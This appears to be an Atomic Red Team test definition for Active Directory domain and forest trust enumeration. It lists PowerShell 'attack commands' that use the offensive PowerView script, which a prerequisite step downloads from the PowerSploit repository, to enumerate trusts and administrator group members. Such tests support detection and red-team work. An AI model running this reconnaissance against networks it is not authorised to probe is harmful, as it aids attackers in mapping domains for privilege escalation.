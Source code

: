 


<br/>
<br/>

## Atomic Test #3 - Powershell enumerate domains and forests
Use powershell to enumerate AD information.
Requires the installation of PowerShell AD admin cmdlets via Windows RSAT or the Windows Server AD DS role.

**Supported Platforms:** Windows


**auto_generated_guid:** c58fbc62-8a62-489e-8f2d-3565d7d96f30






#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module "PathToAtomicsFolder\..\ExternalPayloads\PowerView.ps1"
Get-NetDomainTrust
Get-NetForestTrust
Get-ADDomain
Get-ADGroupMember Administrators -Recursive
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```




#### Dependencies:  Run with `powershell`!
##### Description: PowerView PowerShell script must exist on disk
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\PowerView.ps1") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PowerView.ps1"
```
##### Description: RSAT PowerShell AD admin cmdlets must be installed
##### Check Prereq Commands:
```powershell
if ((Get-Command "Get-ADDomain" -ErrorAction Ignore) -And (Get-Command "Get-ADGroupMember" -ErrorAction Ignore)) { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "Sorry RSAT must be installed manually"
```
